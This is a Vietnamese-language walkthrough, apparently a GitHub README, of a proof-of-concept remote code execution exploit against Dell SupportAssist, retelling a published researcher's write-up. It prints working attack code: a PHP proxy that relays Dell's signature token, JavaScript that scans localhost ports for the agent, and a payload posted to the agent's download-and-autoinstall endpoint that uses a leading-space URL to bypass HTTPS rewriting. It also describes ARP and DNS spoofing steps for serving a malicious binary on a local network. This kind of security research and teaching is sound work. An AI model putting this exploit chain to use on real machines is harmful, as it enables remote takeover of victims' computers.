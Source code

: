 # 1.Tiến hành khai thác demo(POC)
 ## 1.1 Tổng quan chung
 &nbsp;&nbsp;Vấn đề đầu tiên chúng ta gặp phải là tạo request đến **SupportAssist client**. Giả sử chúng ta đang ở trong context của một  Dell subdomain. Vậy để bắt đầu, điều quan trọng nhất là chúng ta phải mô phỏng cách mà Browser thực hiện và tạo các request với Javascript. </br>
 ## 1.2 Phân tích các vấn đề gặp phải và cơ chế tấn công.
 
  &nbsp;&nbsp; Thứ nhất, chúng ta phải tìm các port chạy dịch vụ. Chúng ta làm việc này bằng cách duyệt tuần tự qua các port đã được đề cập trong bài trước và thực hiện requests đến **“/clientservice/isalive”** . Vấn đề là chúng ta cần có  **signature**, để có signature chúng ta có thể tạo request đến  “https://www.dell.com/support/home/us/en/04/drivers/driversbyscan/getdsdtoken” để lấy signature. <br>
    &nbsp;&nbsp; Cách lấy signature này hơi khác một chút, chúng ta không thể lấy 1 cách trực tiếp. **“Access-Control-Allow-Origin”** của signature url được set là “https://www.dell.com”. Vấn đề đặt ra là chúng ta đang ở trong subdomain của Dell và có thể môi trường subdomain này không là giao thức HTTPS.  Vậy là sao để vượt qua??? Giải pháp đưa ra: chúng ta sẽ thực thi các yêu cầu từ server của chúng ta...<br>
     &nbsp;&nbsp; Có một điểm yếu ở cơ chế này là các **"signature"** lấy từ server của Dell **“getdsdtoken"** có thể dùng cho rất nhiều thiết bị chứ không phải là cho một máy. Vậy nên ở server của chúng ta chỉ cần viết 1 đoạn script PHP: 
```php
<?php
header('Access-Control-Allow-Origin: *');
echo file_get_contents('https://www.dell.com/support/home/us/en/04/drivers/driversbyscan/getdsdtoken');
?> 
```

**"Header call"** cho phép bất kỳ ai tạo một request đến file PHP này và file PHP này thực thi lấy "signature" từ máy chủ DELL về và trả lại, ở trường hợp này file PHP đóng vai trò như 1định tuyến để lấy signature từ “getdsdtoken”. Nó sẽ trả về đối tượng JSON và thời gian hết hạn của signature. Từ đây, chúng ta có thể lấy dữ liệu ra và thay thế vào vào đối tượng của JS để thực thi... <br>
  &nbsp;&nbsp; Bây giờ, chúng ta đã có signature rồi. Tạo một function lặp qua các port mặc định. nếu tìm được  chúng ta sẽ đặt port đó làm biến global để phục vụ các thao tác khác.
  
```js
  function FindServer() {
	ports.forEach(function(port) {
		var is_alive_url = "http://127.0.0.1:" + port + "/clientservice/isalive/?expires=" + signatures.Expires + "&signature=" + signatures.IsaliveToken;
		var response = SendAsyncRequest(is_alive_url, function(){server_port = port;});
	});
} 
```

Sau khi đã tìm được server chúng ta có thể gửi **payload**  của mình. Đây là phần khó nhất, chúng ta sẽ gặp phải một số vấn đề nghiêm trọng trước khi  có thể thực hiện **"downloadandautoinstal"**.<br>
 &nbsp;&nbsp; Bắt đầu với vấn đề khó nhất, ứng dụng SupportAssist có 1 danh sách các các tên miền cố định cho phép thực thi và nó được định nghĩa sẵn trong ứng dụng. Cụ thể, máy chủ  phải là 1 trong những website sau:  “ftp.dell.com”, “downloads.dell.com”, or “ausgesd4f1.aus.amer.dell.com”.  Và trên những website này không hề có  bất kỳ **"redirect vulnerability"** như là XSS hay gì gì đó,... Vì vậy chúng ta có thể sử dụng kỹ thuật "man-in-the-middle attack". <br>
 &nbsp;&nbsp;Nếu chúng ta có thể cung cấp cho  SupportAssist client với url giao thức HTTP:// thì chúng ta có thể chặn băt và thay đổi dữ liệu trả về. Nếu làm được vậy thì có thể giải quyết đc vấn đề trên...<br>
  &nbsp;&nbsp;Nhưng chúng ta lại gặp vấn đề tiếp theo, cơ chế này nhằm chống lại cơ chế tấn công "man-in-the-middle". Nhìn lại các bước trước ta thấy rằng nếu file URL là HTTP:// thì  sẽ bị thay thế bằng HTTPS://... Đây lại là 1 vấn đề tiếp theo, vì chúng ta không thể chặn bắt hay sửa đổi gói tin của HTTPS://.  key word để bypass vấn đề này chính là: "if the URL starts with http://, it will be replaced by https://"...  Điểm yếu ở đây lại nằm ở chỗ nếu URL **không** bắt đầu với "http://" thì nó sẽ không bị thay đổi kể cả trong chuổi URL có "http://" .**Vậy chúng ta sẽ thêm 1 "space"  vào đầu URL** ví dụ: "http://vlxxxxxxxxx.abc" đổi thành " http://vlxxxxxxxxx.abc".  vậy là đã OK! <br>
  Chúng ta sẽ tạo 1 functions để tự động gửi payloads.
  ```
  function SendRCEPayload() {
	var auto_install_url = "http://127.0.0.1:" + server_port + "/downloadservice/downloadandautoinstall?expires=" + signatures.Expires + "&signature=" + signatures.DownloadAndAutoInstallToken;
```

```
var xmlhttp = new XMLHttpRequest();
xmlhttp.open("POST", auto_install_url, true);

var files = [];

files.push({
"title": "SupportAssist RCE",
"category": "Serial ATA",
"name": "calc.EXE",
"location": " http://downloads.dell.com/calc.EXE", // those spaces are KEY
"isSecure": false,
"fileUniqueId": guid(),
"run": true,
"installOrder": 2,
"restricted": false,
"fileStatus": -99,
"driverId": "FXGNY",
"dupInstallReturnCode": 0,
"cssClass": "inactive-step",
"isReboot": false,
"scanPNPId": "PCI\\VEN_8086&DEV_282A&SUBSYS_08851028&REV_10",
"$$hashKey": "object:210"});

xmlhttp.send(JSON.stringify(files)); 
}
```

## 1.3 Các bước tấn công trong mạng
Bước tiếp theo, chúng ta sẽ thực hiện tấn công trong mạng local. Dưới đây là các bước thực hiện:
1. Lấy địa chỉ interface mạng.
2. Khởi chạy server giả mạo và tên file của payload mà chúng ta muốn gửi. Web server sẽ check xem "host header" có phải là: **downloads.dell.com**  không nếu đúng sẽ thực hiện gửi payload nhị phân. Nếu  host request  có "dell.com" trong đó  và không phải domain tải xuống thì nó sẽ gửi payload JS đã đề cập ở phía trên.
3. Tiếp theo chúng ta sẽ thực hiện tấn công ARP Spoof vào máy nạn nhân. Đầu tiên kích  hoạt IP forwarding sau đầu tấn công ARP spoof để làm cho máy nạn nhân nhận máy hacker làm gateway và gateway nhận máy chúng ta thành máy nạn nhân...
4. Cuối cùng, chúng ta DNS spoof bằng cách sử dụng iptables để chuyển hướng các DNS packets đến hàng đợi netfilter. Chúng ta lắng nghe trên hàng đợi netfilter và kiểm tra tên các DNS đã request có phải là target URL. Nếu đúng, thì chúng ta sẽ gửi lại DNS packet giả mạo chứa địa chỉ IP server fake độc hại của chúng ta... 
5. Khi nạn nhân truy cập vào server của chúng ta ( thông qua URL hoặc gián tiếp bằng iframe ), chúng ta sẽ gửi lại đoạn JS độc hại kia và nó sẽ thực thi trên máy nạn nhân, để tìm port dịch vụ cho agent và lấy signature từ file PHP đã tạo trước đó. Sau đó, sẽ gửi RCE payload. Khi mà RCE pay load được thực thi bởi  agent( cái agent phân tích trong phần 1 ý). nó sẽ tạo 1 request đến "downloads.dell.com" thì lúc này chúng ta sẽ trả về payload độc hại của chúng ta...

<br>

Như vậy là mình đã phân tích quá trình tấn công rồi nhá. Các file scipt và hướng dẫn có trong link:    "https://github.com/D4stiny/Dell-Support-Assist-RCE-PoC".  <br>

Đồng thời có video demo ở link: https://www.youtube.com/watch?time_continue=2&v=0cTfnZ04jgQ <br>

# 2 Chú thích và tham khảo

link: https://d4stiny.github.io/Remote-Code-Execution-on-most-Dell-computers/